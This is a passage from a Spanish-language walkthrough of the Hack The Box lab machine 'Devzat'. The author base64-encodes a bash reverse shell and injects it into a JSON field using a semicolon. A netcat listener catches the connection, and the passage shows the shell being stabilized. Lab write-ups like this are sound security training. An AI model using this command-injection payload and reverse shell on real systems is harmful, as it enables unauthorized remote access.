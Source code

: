```console
p3ntest1ng:~$ echo "bash -i >& /dev/tcp/10.10.15.113/9999 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4xMTMvOTk5OSAwPiYxCg==
```

Nuestra petición tendrá este aspecto (el punto y coma antes del echo es importante para que interprete la orden):

```json
{
  "name":"pwned",
  "species":";echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4xMTMvOTk5OSAwPiYxCg== | base64 -d | bash"
}
```

Nos ponemos en escucha con **`nc -nlvp 9999`** y lanzamos la petición con **`BurpSuite`**:

```console
p3ntest1ng:~$ nc -nlvp 9999
listening on [any] 9999 ...
```

Le damos a **`Forward`** y nos debería entablar la conexión...

![BurpSuite](/assets/images/hackthebox/machines/devzat/burpsuite2.png)

```console
p3ntest1ng:~$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.15.113] from (UNKNOWN) [10.10.11.118] 43722
bash: cannot set terminal process group (871): Inappropriate ioctl for device
bash: no job control in this shell
patrick@devzat:~/pets$ 
```

Como curiosidad, si observamos la página vemos que se ha producido un error al tramitar nuestra petición:

![JSON Error](/assets/images/hackthebox/machines/devzat/json_error.png)

Vamos a realizar un tratamiento a la shell para mayor comodidad, recordad que esto siempre es recomendable hacerlo:

```console
patrick@devzat:~/pets$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
patrick@devzat:~/pets$ ^Z
zsh: suspended  nc -nlvp 9999
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 9999
                               reset xterm
patrick@devzat:~/pets$ export TERM=xterm
patrick@devzat:~/pets$ export SHELL=bash
patrick@devzat:~/pets$ stty rows 43 columns 189
```
